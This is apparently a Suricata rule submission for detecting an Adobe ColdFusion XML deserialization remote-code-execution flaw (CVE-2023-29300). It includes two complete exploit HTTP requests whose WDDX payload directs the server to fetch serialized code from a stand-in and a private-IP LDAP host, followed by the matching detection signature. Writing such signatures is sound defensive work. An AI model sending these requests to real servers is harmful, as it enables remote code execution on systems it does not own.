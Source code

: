 # ET Open Submission (Return from PCRE grave)
### May 2nd, 2024
### Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)


![8olo1g](https://github.com/eatinsundip/Suricata/assets/43767555/aadafd56-30f9-4747-bb3e-2d78dcfa22f4)


## Resources

1. [https://github.com/taythebot/CVE-2022-46169](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300)
2. [https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)

# The exploit itself:

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333


argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

I was hoever able to get the LDAP calls to fire on much less.

```
OST /CFIDE/adminapi/accessmanager.cfc?method=foo HTTP/1.1
127.0.0.1
User-Agent: curl/8.5.0
Accept: */*
Content-Length: 387
Content-Type: application/x-www-form-urlencoded

argumentCollection=%3CwddxPacket%20version%3D%271.0%27%3E%3Cheader%2F%3E%3Cdata%3E%3Cstruct%20type%3D%27xcom.sun.rowset.JdbcRowSetImplx%27%3E%3Cvar%20name%3D%27dataSourceName%27%3E%3Cstring%3Eldap%3A%2F%2F192.168.1.144%2Ftest.ser%3C%2Fstring%3E%3C%2Fvar%3E%3Cvar%20name%3D%27autoCommit%27%3E%3Cboolean%20value%3D%27true%27%2F%3E%3C%2Fvar%3E%3C%2Fstruct%3E%3C%2Fdata%3E%3C%2FwddxPacket%3E
```

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; fast_pattern; bsize:59; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2024_05_02, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2024_05_02;)```


[Job Zip](https://github.com/eatinsundip/Suricata/files/15189851/9dfa93c65d3bbd7d.zip)

[https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d](https://dalton.securitymidwest.net/dalton/job/9dfa93c65d3bbd7d)


## NOTES
- I am a little rusty and very open to critique
- I plan to get a working LDAP server to host malicious serialized code.
	- I have never attempted RCE with an LDAP server so it's a learning experience.
